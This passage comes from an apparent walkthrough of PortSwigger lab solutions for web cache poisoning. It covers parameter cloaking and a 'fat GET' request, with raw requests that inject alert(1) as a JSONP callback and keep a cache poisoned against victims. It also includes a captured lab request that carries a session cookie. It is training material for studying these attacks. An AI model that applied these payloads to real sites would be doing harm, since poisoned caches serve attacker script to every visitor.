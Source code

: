 ```
…
arbitraryFunction({"country" : "United Kingdom"})
```
6. Send the request again, but this time pass in alert(1) as the callback function:
```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```
7. Get the response cached, then load the home page in your browser. Check that the alert() is triggered.
8. Replay the request to keep the cache poisoned. The lab will solve when the victim user visits any page containing this resource import URL.

## Web cache poisoning via a fat GET request
Reference: https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get


### Solution
1. Observe that every page imports the script ``/js/geolocate.js``, executing the callback function ``setCountryCookie()``. Send the request ``GET /js/geolocate.js?callback=setCountryCookie`` to Burp Repeater.
2. Notice that you can control the name of the function that is called in the response by passing in a duplicate ``callback`` parameter via the request body. Also notice that the cache key is still derived from the original ``callback`` parameter in the request line:
```
GET /js/geolocate.js?callback=setCountryCookie
…
callback=arbitraryFunction

HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})
```
3. Send the request again, but this time pass in ``alert(1)`` as the callback function. Check that you can successfully poison the cache.
4. Remove any cache busters and re-poison the cache. The lab will solve when the victim user visits any page containing this resource import URL.

FAT GET:

GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a9c00f10383918d80a9e92d009800c5.web-security-academy.net
Cookie: country=[object Object]; session=N3Fa4xODwv3Jb9RwYoJbW2UnYAAHykrb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers
Content-Length: 17
